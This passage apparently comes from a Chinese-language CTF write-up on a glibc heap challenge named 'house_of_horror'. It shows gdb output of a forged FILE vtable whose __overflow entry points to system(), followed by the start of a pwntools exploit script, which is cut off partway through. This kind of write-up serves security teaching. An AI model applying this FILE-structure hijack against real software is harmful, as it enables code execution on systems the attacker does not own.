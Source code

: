 ```
    _codecvt = 0x0, 
    _wide_data = 0x0, 
    _freeres_list = 0x211d0d0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = "\000\000\000\000\220\343#o\213\177\000\000\220\343#o\213\177\000"
  }, 
  vtable = 0x211d0e8
}

gdb-peda$ p *((struct _IO_FILE_plus *)0x000000000211d020).vtable
$10 = {
  __dummy = 0x7f8b6f23e390, 
  __dummy2 = 0x7f8b6f23e390, 
  __finish = 0x211d0e8, 
  __overflow = 0x7f8b6f23e390 <__libc_system>, 
  __underflow = 0x101, 
  __uflow = 0x1e, 
  __pbackfail = 0x0, 
  __xsputn = 0x0, 
  __xsgetn = 0x0, 
  __seekoff = 0x0, 
  __seekpos = 0x0, 
  __setbuf = 0x0, 
  __sync = 0x0, 
  __doallocate = 0x0, 
  __read = 0x0, 
  __write = 0x0, 
  __seek = 0x0, 
  __close = 0x0, 
  __stat = 0x0, 
  __showmanyc = 0x0, 
  __imbue = 0x0
}
```

详细脚本如下：

```
from pwn import *

#context.log_level = 'debug'
p = process("./house_of_horror")
elf = ELF("./house_of_horror")
libc = ELF("./libc.so.6")

def add(size):
	p.sendlineafter('> ', '1')
	p.sendlineafter('Enter the size of your array:', str(size))
	# p.sendafter("What are the contents of this dream?", s)

def edit(arr_index, ele_index, data):
	p.sendlineafter('>', "3")
	p.sendlineafter("Which array would you like to edit?", str(arr_index))
	p.sendlineafter("Which element would you like to edit?", str(ele_index))
	p.sendlineafter("What would you like to set this element to?", str(data))


def free(index):
	p.sendlineafter('>', "4")
	p.sendlineafter("Which array would you like to view?", str(index))

def show(arr_index, ele_index):
```